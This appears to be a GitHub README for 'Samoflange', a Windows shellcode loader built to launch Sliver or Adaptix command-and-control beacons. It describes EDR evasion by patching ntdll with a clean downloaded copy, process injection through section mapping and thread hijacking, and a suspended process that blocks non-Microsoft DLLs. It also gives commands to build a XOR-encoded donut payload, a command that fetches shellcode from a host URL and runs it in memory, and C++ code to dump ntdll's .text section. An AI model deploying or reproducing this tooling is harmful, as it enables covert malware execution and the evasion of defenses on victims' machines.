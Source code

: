 # Samoflange
I created this loader specifically to spawn Sliver or Adaptix beacons. It doesn't catch the resolution of the payload and transfer it back, it's very much a fire-and-forget kind of loader.

I couldn't think of a good name, there isn't any meaning behind it in this case. https://www.youtube.com/watch?v=nbPWMKOBf0g

* First we download a clean copy of ntdll's .text section, Next we patch the current processes ntdll to avoid api hooking.
* Then we spawn a suspended process with `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON`, and map the downloaded shellcode to it with `NtCreateSection` and `NtMapViewOfSection`.
* Finally we locate and hijack and existing thread in the created process to load the payload without creating new threads or making APC calls. It's worth noting that it can take a bit(30 seconds to 1 minute) for the payload to execute once the thread is hijacked. We're changing the context, but Windows probably won't schedule the thread to run instantly.

Also I refactored a couple of the functions that I tend to copy-paste between projects.

The donut generator requires donut shellcode: https://github.com/TheWover/donut
```
pip install donut-shellcode
```
It should work with any shellcode though, not only donut.
## Usage:
Create your payload
```
python donutGenerator.py -i DOUBTFUL_MANTEL.exe -x "Hello World"
```
Host the payload file and ntdll.dll's text section on a web server and use the loader to download into memory and execute. By default it expects the text section to be named `ntdll.text`.
```
.\Samoflange.exe /p:http://example.com/payload.bin /x:"Hello World"
```
Omit -x or /x: if not using XOR functionality.

Fun fact, if you pass `PROCESS_CREATION_MITIGATION_POLICY_STRICT_HANDLE_CHECKS_ALWAYS_ON` with `UpdateProcThreadAttribute` it will also mess with spectre mitigations.

If you don't want to use my ntdll.text or are targetting a different windows version you can use the following C++ function to extract the .text section from your own system.
```
BOOL DumpLocalNtdllTextSection(const char* outputPath) {
    HMODULE hNtdll = GetModuleHandleW(L"ntdll.dll");
    if (!hNtdll) return FALSE;

    PBYTE base = (PBYTE)hNtdll;
    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)base;
    PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)(base + dos->e_lfanew);
    PIMAGE_SECTION_HEADER sections = (PIMAGE_SECTION_HEADER)((BYTE*)&nt->OptionalHeader +
        nt->FileHeader.SizeOfOptionalHeader);

    PBYTE textStart = NULL;
    DWORD textSize = 0;
    for (int i = 0; i < nt->FileHeader.NumberOfSections; i++) {
        if (memcmp(sections[i].Name, ".text", 5) == 0) {
            textStart = base + sections[i].VirtualAddress;
            textSize = sections[i].Misc.VirtualSize;
            break;
        }
    }

    if (!textStart || textSize == 0) {
        printf("[-] Failed to locate .text section in ntdll.dll\n");
        return FALSE;
    }

    FILE* fp = NULL;
    fopen_s(&fp, outputPath, "wb");
    if (!fp) {
        printf("[-] Failed to open %s for writing\n", outputPath);
        return FALSE;
    }

    if (fwrite(textStart, 1, textSize, fp) != textSize) {
        printf("[-] Failed to write full text section to disk\n");
        fclose(fp);
        return FALSE;
    }

    fclose(fp);
    printf("[+] Dumped .text section to %s (%u bytes)\n", outputPath, textSize);
    return TRUE;
}
```
